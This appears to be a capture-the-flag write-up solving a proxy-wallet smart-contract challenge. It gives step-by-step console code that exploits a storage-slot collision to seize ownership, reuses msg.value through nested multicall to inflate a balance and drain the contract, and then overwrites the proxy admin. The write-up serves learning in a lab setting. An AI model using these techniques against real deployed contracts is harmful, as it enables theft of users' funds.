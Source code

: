 ## Steps
1. Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

2. Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

3. Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker
### Step 3 console code
- `depositData = await contract.methods["deposit()"].request().then(value => value.data)`
- `multicallDepositData = await contract.methods["multicall(bytes[])"].request([depositData]).then(value => value.data)`
- `await contract.multicall([multicallDepositData, multicallDepositData], {value: 0.001 * 10**18})`
- `await contract.execute(player, await contract.balances(player).then(n=>n.toNumber()), 0)`
- confirm with `await getBalance(contract.address)`; should be 0 as all funds drained

4. Use `setMaxBalance` to set value of `admin` in proxy to attacker
### Step 3 console code
- `await contract.setMaxBalance(player)`
